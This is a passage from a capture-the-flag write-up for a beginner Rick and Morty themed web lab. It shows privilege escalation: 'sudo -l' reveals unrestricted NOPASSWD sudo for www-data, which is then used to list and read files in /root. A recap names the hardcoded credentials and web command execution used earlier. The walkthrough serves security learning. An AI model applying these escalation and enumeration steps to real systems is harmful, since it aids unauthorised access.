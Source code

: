 While exploring the file system, I noticed a `/root` directory. Attempting to access this directory results in a **Permission Denied** since the current user does not have access to this directory.

The final ingredient could be in this directory, so let's see if we can escalate our privileges.

#### Checking Sudo Permissions

We can check whether the current user has any `sudo` rights by running:
```bash
sudo -l
```

The result:
```bash
Matching Defaults entries for www-data on ip-10-10-77-26:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-77-26:
    (ALL) NOPASSWD: ALL
```

This output shows that `www-data` can run **any** command as `any` user without providing a password - this means **full root access** via `sudo`

#### Getting Root Access

Let's test this by listing the contents of the `/root` directory with root privileges:
```bash
sudo ls -la /root
```

Result:
```bash
total 36
drwx------  4 root root 4096 Jul 11  2024 .
drwxr-xr-x 23 root root 4096 Jul  4 12:32 ..
-rw-------  1 root root  168 Jul 11  2024 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-------  1 root root  702 Jul 11  2024 .viminfo
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  4 root root 4096 Jul 11  2024 snap
```

We've found the `3rd.txt` file.

Let's read this file and get the third and final ingredient:
```bash
sudo strings /root/3rd.txt
```


## Conclusion

This CTF was a fun and beginner-friendly web challenge with Rick and Morty theme. The goal was to find three hidden ingredients by exploring a vulnerable web server. Here's a summary of what I did:
- **Enumeration & Reconnaissance**: I scanned for open ports, discovered a web server on port 80, and used tools like `gobuster` to enumerate hidden directories and files.
- **Initial Access**: I found hardcoded credentials (`R1ckRul3s` / `Wubbalubbadubdub`) and used them to log in via web login form.
- **Command Execution via Web Interface**: After logging in, I used a built-in command execution feature to enumerate the file system and locate hidden ingredient files.
- **Privilege Escalation**: While two ingredients were accessible, the third one was stored in protected area `/root`. I discovered that the `www-data` user had unrestricted `sudo` access without a password.
